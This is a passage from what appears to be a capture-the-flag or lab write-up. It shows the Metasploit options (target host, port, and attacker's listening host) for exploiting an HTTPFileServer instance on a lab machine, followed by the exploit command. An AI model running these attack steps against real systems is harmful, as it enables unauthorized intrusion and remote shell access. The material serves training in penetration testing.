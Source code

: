 We will need to set the following settings to get the exploit to work. Luckily this exploit does not require any hidden credentials.
```
# Set to target IP address
set RHOST 10.10.150.240

# Set to the port that the HTTPFileServer software is running on
set RPORT 8080

# Set to your attacking machines IP address
set LHOST 10.11.11.11

# Run the exploit
exploit
```

![Metasploit Exploit](/assets/images/vh_steel_mountain/steel-mountain-metasploit-2.jpg)
